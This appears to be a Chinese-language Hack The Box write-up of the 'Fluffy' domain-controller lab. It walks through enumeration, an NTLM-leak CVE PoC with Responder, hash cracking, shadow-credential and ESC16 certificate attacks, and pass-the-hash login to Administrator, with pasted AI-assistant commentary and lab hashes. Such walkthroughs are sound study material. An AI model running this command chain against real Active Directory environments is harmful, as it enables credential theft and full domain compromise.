







# HTB-Fluffy(easy)

## 初始信息

windows主机

ip:

```text
10.10.11.69
```

##### 初始账户：

```text
j.fleischman / J0elTHEM4n1990!
```

## 信息收集

### gogo扫描

```cmd
gogo -i 10.10.11.69 -p win,top2,db -f htb1.dat
gogo.exe -F htb1.dat
```



开放端口可利用协议：

winrm

smb

ldap

kerberos(证明该主机应该是域控)


gpt分析：

好的 ✅ 我来帮你逐项拆解这个扫描结果。

你用 `gogo.exe` 扫描了 **10.10.11.69**（Fluffy 靶机），输出内容如下：

---

🔎 总览

* **目标主机**：`10.10.11.69`
* **系统**：Windows 10 1809 / Windows Server 2019 (10.0.17763)
* **域信息**：`fluffy.htb`，域控主机名：`DC01.fluffy.htb`
* **说明**：这很可能是 **域控 (Domain Controller)**，因为同时暴露了 **WinRM、SMB、Kerberos、LDAP**。

---

🔎 逐行分析

1. **WinRM (5985)**

   ```
   winrm://10.10.11.69:5985
   ```

   * Windows Remote Management (WinRM)，HTTP 基础认证接口。
   * 用于远程管理，常见于 Windows 服务器。
   * 在渗透场景中，如果拿到有效域凭据（如 j.fleischman），可直接通过 WinRM 登录系统。
   * 工具：`evil-winrm`、`crackmapexec winrm`。

---

2. **SMB (445)**

   ```
   smb://10.10.11.69:445
   ```

   * 经典的文件共享服务。
   * 显示 SMB2 协议。
   * 作用：

     * 枚举共享目录（`smbclient`，`crackmapexec smb`）。
     * 可能存放敏感信息或允许匿名访问。
     * 可用于密码喷洒 / hash 传递。

---

3. **Kerberos (88)**

   ```
   tcp://10.10.11.69:88 kerberos:guess [open]
   ```

   * Kerberos 服务 → **说明目标是域控 (DC)**。
   * 可做的测试：

     * **Kerbrute 枚举用户**（检测域用户存在性）。
     * **AS-REP Roasting**（如果某些用户未开启预身份验证）。
     * **Kerberoasting**（服务账户 SPN 请求 TGS → 离线破解）。

---

4. **LDAP (389)**

   ```
   tcp://10.10.11.69:389 ldap:guess [open]
   ```

   * Lightweight Directory Access Protocol。
   * 用于查询 AD 域对象信息。
   * 可能存在匿名绑定，如果允许匿名查询，可以获取大量域内用户/组/策略信息。
   * 工具：`ldapsearch`、`windapsearch`、`ldapdomaindump`。

---

🧭 初步结论

* 目标几乎 **确认是域控 (DC01.fluffy.htb)**。
* 你已经有一个普通域用户账号（`j.fleischman`）。
* 结合这些服务，可以走以下 **常见内网渗透路线**：

1. **凭据验证**

   * 用 `crackmapexec smb 10.10.11.69 -u j.fleischman -p 'J0elTHEM4n1990!'` 验证能否登录 SMB。
   * 用 `crackmapexec winrm 10.10.11.69 -u ... -p ...` 测试 WinRM 登录。

2. **LDAP 枚举**

   * 查询域内所有用户、组、策略。
   * 确认是否有可利用的用户（弱口令 / 无预验证）。

3. **Kerberos 攻击**

   * `GetNPUsers.py` → 尝试 AS-REP roasting。
   * `GetUserSPNs.py` → 尝试 Kerberoasting。

4. **权限提升**

   * 如果能 WinRM 登录 → 直接进入系统内网，执行进一步横向渗透。
   * 如果只能枚举 → 尝试通过 Kerberos/LDAP 拿到更高权限账户。

---

✅ 总结：
这次扫描结果显示 `10.10.11.69` 是 **域控服务器 (DC01.fluffy.htb)**，并且对外暴露了典型域服务（WinRM、SMB、Kerberos、LDAP）。
下一步应该用已有账号去 **验证登录 + 域信息枚举**，再尝试 Kerberos/LDAP 相关的提权路径。

---

要不要我帮你整理一个 **详细的攻击路线图**（从 `j.fleischman` 开始 → 信息收集 → Kerberos/LDAP 枚举 → 可能的提权方式）？

### nex

#### smb

##### 枚举共享 (–shares)

```powershell
#枚举共享 (–shares)
.\nxc.exe smb 10.10.11.69 -u j.fleischman -p 'J0elTHEM4n1990!' --shares

# 使用 smbexec 方法执行 whoami（无权限）
.\nxc.exe smb 10.10.11.69 -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' -x 'whoami' --exec-method smbexec

.\nxc.exe smb 10.10.11.69 -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' -x 'whoami' --exec-method wmiexec

```




ai:

好的，我们来分析你用 `nxc.exe` 枚举 SMB 共享的结果。

扫描命令：

```powershell
.\nxc.exe smb 10.10.11.69 -u j.fleischman -p 'J0elTHEM4n1990!' --shares
```

目标：**10.10.11.69 / DC01.fluffy.htb**，使用域用户 `j.fleischman` 登录 SMB 并枚举共享。

---

🔎 输出解读

1. **主机信息**

```
Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
```

* 主机 OS：Windows 10 / Server 2019（Build 17763）
* 域名：`fluffy.htb`
* SMB 签名开启 (`signing:True`)，说明拒绝未经签名的 SMB 连接 → 防止 SMB 中间人攻击
* SMBv1 禁用 (`SMBv1:False`) → 不易受 EternalBlue 等漏洞影响

---

2. **认证结果**

```
[+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
```

* 用户凭证有效，可以成功访问 SMB
* **权限**会根据共享而不同，普通用户无法直接访问 ADMIN\$ / C\$

---

3. **枚举到的共享**

| Share    | 权限        | 备注                                           |
| -------- | ----------- | ---------------------------------------------- |
| ADMIN\$  | —           | Remote Admin（默认管理员共享，仅管理员可访问） |
| C\$      | —           | 默认共享，管理员专用                           |
| IPC\$    | READ        | Remote IPC（进程间通信）                       |
| IT       | READ, WRITE | 用户共享，可以读写                             |
| NETLOGON | READ        | 域控登录脚本共享                               |
| SYSVOL   | READ        | 域控策略/组策略对象共享                        |

---

🔑 分析结论

1. **可以利用的共享**

* `IT` 共享：有 **读写权限**

  * 可能存放内部文件、配置、密码备份等
  * 可以上传工具、脚本进行横向渗透或提权（如果可执行权限允许）

* `NETLOGON` 和 `SYSVOL`：只读

  * 可用于 **信息收集**

    * `NETLOGON`：登录脚本
    * `SYSVOL`：GPO 配置 → 可能泄露域信息或敏感路径

2. **不建议直接尝试的共享**

* `ADMIN$` 和 `C$`：只有管理员权限才能访问
* `IPC$`：仅 IPC 连接，用于远程服务调用

3. **下一步建议**

* **枚举 `IT` 共享内容** → 查找敏感信息、凭据文件、备份、脚本
* **枚举 `NETLOGON` 和 `SYSVOL`** → 查找域内策略、用户信息、可利用脚本
* **结合已有凭证**（j.fleischman） → 尝试 WinRM / SMB 内部横向移动

---

✅ 总结

* 凭证 `j.fleischman` 成功访问 SMB
* 只有 `IT` 共享可以读写 → 主要攻击面
* `NETLOGON`、`SYSVOL` 共享可以做信息收集
* `ADMIN$`、`C$` 不可访问

---

如果你需要，我可以帮你写一个 **详细 SMB 渗透流程图**，说明从这个扫描结果出发，如何一步步在域控上收集信息、提权、横向移动。

你希望我帮你画这个流程图吗？

#### ldap

##### 枚举域用户&&域组 

```powershell
# 枚举域用户
.\nxc.exe ldap 10.10.11.69 -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --users
#枚举域组 (–groups)
.\nxc.exe ldap 10.10.11.69 -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --groups
```




```powershell
 .\nxc.exe ldap 10.10.11.69 -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --groups
LDAP        10.10.11.69     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
LDAP        10.10.11.69     389    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
LDAP        10.10.11.69     389    DC01             Administrators                           membercount: 3
LDAP        10.10.11.69     389    DC01             Users                                    membercount: 3
LDAP        10.10.11.69     389    DC01             Guests                                   membercount: 2
LDAP        10.10.11.69     389    DC01             Print Operators                          membercount: 0
LDAP        10.10.11.69     389    DC01             Backup Operators                         membercount: 0
LDAP        10.10.11.69     389    DC01             Replicator                               membercount: 0
LDAP        10.10.11.69     389    DC01             Remote Desktop Users                     membercount: 0
LDAP        10.10.11.69     389    DC01             Network Configuration Operators          membercount: 0
LDAP        10.10.11.69     389    DC01             Performance Monitor Users                membercount: 0
LDAP        10.10.11.69     389    DC01             Performance Log Users                    membercount: 0
LDAP        10.10.11.69     389    DC01             Distributed COM Users                    membercount: 0
LDAP        10.10.11.69     389    DC01             IIS_IUSRS                                membercount: 0
LDAP        10.10.11.69     389    DC01             Cryptographic Operators                  membercount: 0
LDAP        10.10.11.69     389    DC01             Event Log Readers                        membercount: 0
LDAP        10.10.11.69     389    DC01             Certificate Service DCOM Access          membercount: 1
LDAP        10.10.11.69     389    DC01             RDS Remote Access Servers                membercount: 0
LDAP        10.10.11.69     389    DC01             RDS Endpoint Servers                     membercount: 0
LDAP        10.10.11.69     389    DC01             RDS Management Servers                   membercount: 0
LDAP        10.10.11.69     389    DC01             Hyper-V Administrators                   membercount: 0
LDAP        10.10.11.69     389    DC01             Access Control Assistance Operators      membercount: 0
LDAP        10.10.11.69     389    DC01             Remote Management Users                  membercount: 1
LDAP        10.10.11.69     389    DC01             Storage Replica Administrators           membercount: 0
LDAP        10.10.11.69     389    DC01             Domain Computers                         membercount: 0
LDAP        10.10.11.69     389    DC01             Domain Controllers                       membercount: 0
LDAP        10.10.11.69     389    DC01             Schema Admins                            membercount: 1
LDAP        10.10.11.69     389    DC01             Enterprise Admins                        membercount: 1
LDAP        10.10.11.69     389    DC01             Cert Publishers                          membercount: 2
LDAP        10.10.11.69     389    DC01             Domain Admins                            membercount: 1
LDAP        10.10.11.69     389    DC01             Domain Users                             membercount: 0
LDAP        10.10.11.69     389    DC01             Domain Guests                            membercount: 0
LDAP        10.10.11.69     389    DC01             Group Policy Creator Owners              membercount: 1
LDAP        10.10.11.69     389    DC01             RAS and IAS Servers                      membercount: 0
LDAP        10.10.11.69     389    DC01             Server Operators                         membercount: 0
LDAP        10.10.11.69     389    DC01             Account Operators                        membercount: 0
LDAP        10.10.11.69     389    DC01             Pre-Windows 2000 Compatible Access       membercount: 2
LDAP        10.10.11.69     389    DC01             Incoming Forest Trust Builders           membercount: 0
LDAP        10.10.11.69     389    DC01             Windows Authorization Access Group       membercount: 1
LDAP        10.10.11.69     389    DC01             Terminal Server License Servers          membercount: 0
LDAP        10.10.11.69     389    DC01             Allowed RODC Password Replication Group  membercount: 0
LDAP        10.10.11.69     389    DC01             Denied RODC Password Replication Group   membercount: 8
LDAP        10.10.11.69     389    DC01             Read-only Domain Controllers             membercount: 0
LDAP        10.10.11.69     389    DC01             Enterprise Read-only Domain Controllers  membercount: 0
LDAP        10.10.11.69     389    DC01             Cloneable Domain Controllers             membercount: 0
LDAP        10.10.11.69     389    DC01             Protected Users                          membercount: 0
LDAP        10.10.11.69     389    DC01             Key Admins                               membercount: 0
LDAP        10.10.11.69     389    DC01             Enterprise Key Admins                    membercount: 0
LDAP        10.10.11.69     389    DC01             DnsAdmins                                membercount: 0
LDAP        10.10.11.69     389    DC01             DnsUpdateProxy                           membercount: 0
LDAP        10.10.11.69     389    DC01             Service Account Managers                 membercount: 2
LDAP        10.10.11.69     389    DC01             Service Accounts                         membercount: 3

```


ai:

好的，我们来分析这条 LDAP 枚举结果。

你执行的命令：

```powershell
.\nxc.exe ldap 10.10.11.69 -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --users
```

目标：**枚举域内用户**，使用普通用户 `j.fleischman` 连接 LDAP。

---

🔎 输出解读

1. **连接信息**

```
LDAP 10.10.11.69 389 DC01
[+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
[*] Enumerated 9 domain users
```

* LDAP 成功连接 DC01（域控）
* 使用 j.fleischman 凭据成功认证
* 枚举到 **9 个域用户**

---

2. **域用户列表**

| 用户名        | Last PW Set      | BadPW | 说明                                    |
| ------------- | ---------------- | ----- | --------------------------------------- |
| Administrator | 2025-04-17 23:45 | 0     | 域管理员内置账号                        |
| Guest         | <never>          | 0     | 内置访客账号                            |
| krbtgt        | 2025-04-18 00:00 | 0     | Kerberos KDC 服务账号                   |
| ca\_svc       | 2025-04-18 00:07 | 0     | 服务账户                                |
| ldap\_svc     | 2025-04-18 00:17 | 0     | 服务账户                                |
| p.agila       | 2025-04-18 22:37 | 4     | 普通用户？注意 BadPW=4 表示失败尝试次数 |
| winrm\_svc    | 2025-05-18 08:51 | 0     | 服务账户                                |
| j.coffey      | 2025-04-19 20:09 | 2     | 普通用户                                |
| j.fleischman  | 2025-05-16 22:46 | 0     | 当前用户                                |

---

🔹 分析

1. **内置账号**

   * `Administrator`：域管理员 → 高价值目标
   * `Guest`：通常禁用，可忽略
   * `krbtgt`：Kerberos 服务账号，主要用于 Kerberoasting 攻击

2. **服务账户**

   * `ca_svc`、`ldap_svc`、`winrm_svc`
   * 可能存在 **弱密码或可用 SPN** → 可进行 Kerberoasting

3. **普通用户**

   * `p.agila`、`j.coffey`、`j.fleischman`
   * 当前你持有 `j.fleischman` 凭据，可作为起点进一步渗透
   * 注意 `BadPW` 值，`p.agila=4`、`j.coffey=2`，可能存在账户锁定策略

4. **潜在攻击点**

   * **Kerberoasting**：针对服务账户（带 SPN 的用户，如 `ldap_svc`、`winrm_svc`、`ca_svc`）
   * **密码喷洒 / 横向移动**：利用普通用户枚举出来的用户名尝试密码
   * **信息收集**：确认哪些账号有管理权限或特殊角色

---

🔹 总结

* j.fleischman 成功枚举了域内 9 个用户
* 域控上有管理员账号、服务账号和普通用户
* 下一步可做：

1. **Kerberoasting** → 获取服务账户 Hash
2. **密码喷洒** → 尝试横向移动到其他普通用户
3. **信息收集** → SMB / WinRM 枚举其他主机和共享

---

如果你需要，我可以帮你画一个 **从 j.fleischman 开始的内网渗透路线图**，标出 SMB、WinRM、LDAP、Kerberos 枚举、提权、横向移动的顺序。

你希望我画吗？


好的，我们来分析这条 LDAP 枚举域组的结果。

---

🔹 输出概览

* 工具：`nxc.exe ldap`
* 目标：`10.10.11.69 / DC01.fluffy.htb`
* 用户：`j.fleischman`（普通域用户）
* 功能：枚举 **域组及其成员数量**

---

🔹 关键发现

1. **主要高权限组**

| 组名                               | 成员数 | 说明                       |
| ---------------------------------- | ------ | -------------------------- |
| Administrators                     | 3      | 域管理员组 → 高价值目标    |
| Domain Admins                      | 1      | 域控超级管理员             |
| Enterprise Admins                  | 1      | 企业管理员，域内最高权限   |
| Schema Admins                      | 1      | 架构管理员，可修改 AD 架构 |
| Group Policy Creator Owners        | 1      | 可以创建/修改 GPO          |
| Domain Admins                      | 1      | 域管理员                   |
| Protected Users                    | 0      | 高安全组，未使用           |
| Key Admins / Enterprise Key Admins | 0      | AD 密钥管理组              |

2. **普通用户组**

| 组名         | 成员数 | 说明                                 |
| ------------ | ------ | ------------------------------------ |
| Users        | 3      | 普通域用户（包含 j.fleischman）      |
| Guests       | 2      | 访客账号                             |
| Domain Users | 0      | 常规域用户组成员为空（可能是域策略） |

3. **服务账户相关组**

| 组名                            | 成员数 | 说明                                    |
| ------------------------------- | ------ | --------------------------------------- |
| Service Account Managers        | 2      | 管理服务账号的用户                      |
| Service Accounts                | 3      | 服务账户，用于 Kerberoasting 或横向移动 |
| Remote Management Users         | 1      | 可远程管理权限（可能 WinRM）            |
| Certificate Service DCOM Access | 1      | 证书服务权限                            |

4. **其他安全组**

* `Denied RODC Password Replication Group` → 8 个成员，防止这些用户在只读域控上复制密码
* 大多数管理员类组成员数为 0，说明这些组未被使用或当前场景简化

---

🔹 分析结论

1. **普通用户权限**

* j.fleischman 是普通域用户，属于 Users 或 Domain Users
* 无直接管理员权限，**无法直接使用 WinRM** 登录目标 DC

2. **可利用目标**

* **服务账户**：Service Accounts、Remote Management Users → 可用于 Kerberoasting 或获取远程执行权限
* **高权限组**：Administrators、Domain Admins → 最终提权目标

3. **信息收集路径**

* j.fleischman 可以枚举域组和成员数量
* 下一步可尝试：

  1. **Kerberoasting** → 针对服务账户
  2. **密码喷洒 / 横向移动** → 通过普通用户发现其他账户
  3. **GPO / SYSVOL 枚举** → 查找可利用策略或登录脚本

---

🔹 总结

* LDAP 枚举成功，显示所有域组及成员数
* j.fleischman 只能访问普通信息
* **提权方向明确**：先从服务账户或 Kerberos 攻击着手，再尝试管理员权限

---

如果你愿意，我可以帮你画一张 **从 j.fleischman 用户出发的内网渗透路线图**，标出 **SMB → LDAP → Kerberoasting → WinRM/横向移动 → 域控提权** 的步骤。

你希望我画吗？

#### winrm

##### 命令执行（无权限）

```powershell
.\nxc.exe winrm 10.10.11.69 -u j.fleischman -p 'J0elTHEM4n1990!' -X 'Get-Process'
.\nxc.exe winrm 10.10.11.69 -u j.fleischman -p 'J0elTHEM4n1990!' -X 'ipconfig'
.\nxc.exe ldap 10.10.11.69 -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --users
```



初始用户权限是普通用户，没有管理员权限。

#### 密码喷洒

##### 枚举域用户

```powershell
.\nxc.exe ldap 10.10.11.69 -d fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --users
```

```username.txt
Administrator
Guest
krbtgt
ca_svc
ldap_svc
p.agila
winrm_svc
j.coffey
j.fleischman
```

```powershell
.\nxc.exe smb  10.10.11.69 -u user_list.txt -p 'J0elTHEM4n1990!' --continue-on-success
```

无结果

### smb共享目录

```bash
 smbclient  //10.10.11.69/IT -U j.fleischman
```

将这个`pdf`文件下载下来


### CVE-2025-24071 

[0x6rss/CVE-2025-24071_PoC: CVE-2025-24071: NTLM Hash Leak via RAR/ZIP Extraction and .library-ms File](https://github.com/0x6rss/CVE-2025-24071_PoC)

```bash
python poc.py  
```

注意选择与vpn连接的网卡IP

```bash
smbclient  //10.10.11.69/IT -U j.fleischman
put exploit.zip 
```

等靶机机器人自动解压exp

另开一个shell监听

```bash
responder -I tun0 -wvF
```

得到hash凭据，保存到本地

### hash爆破-hashcat

```powershell
 .\hashcat.exe -m 5600 .\hash.txt .\rockyou.txt
```




##### 得到账号密码

```pow
p.agila
prometheusx-303
```

### bloodhound

可视化域关系

使用netexec将域关系导出为压缩包

```bash
netexec ldap 10.10.11.69 -u p.agila  -p prometheusx-303 --bloodhound --collection All --dns-server 10.10.11.69 --dns-tcp --dns-timeout 10
```

在windows中开启bloodhound

```powershell
#设置Java临时环境变量
set JAVA_HOME=<java路径>
set PATH=%JAVA_HOME%\bin;%PATH%
#进入neo4j的bin目录，开启数据库
neo4j.bat console
#进入之后默认账密neo4j：neo4j，进入之后会让强制修改密码。修改之后，在日志里查看web页面路径，进入之后复制bloodhound可以使用的路径，然后用账密登录即可。将zip导入
```



### acl提权

kerberoasting 攻击（失败）

#### 影子凭证攻击

```bash
#p.agila->'SERVICE_ACCOUNTS
python bloodyAD.py --host 10.10.11.69 -d fluffy.htb -u p.agila -p prometheusx-303 --dc-ip 10.10.11.69  add groupMember 'SERVICE_ACCOUNTS' p.agila

[+] p.agila added to SERVICE ACCOUNTS


```

```bash
#同步时间
ntpdate -u 10.10.11.69
#获取hash
certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc 
certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account winrm_svc
certipy-ad shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -account 'winrm_svc' -target dc01.fluffy.htb -dc-ip 10.10.11.69
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
33bd09dcd697600edf6b3a7af4875767
```



```bash
evil-winrm -i 10.10.11.69 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
```

## ESC16攻击

```bash
certipy-ad account -u 'ca_svc' -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -target 'dc01.fluffy.htb' -upn 'administrator' -user 'ca_svc' update

certipy-ad account -u 'ca_svc' -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -user 'ca_svc' read

certipy-ad req -dc-ip '10.10.11.69' -u 'administrator' -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'

certipy-ad account -u 'ca_svc' -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -target 'dc01.fluffy.htb' -upn 'winrm_svc' -user 'ca_svc' update

certipy-ad auth -pfx administrator.pfx -domain fluffy.htb -dc-ip 10.10.11.69
```


aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
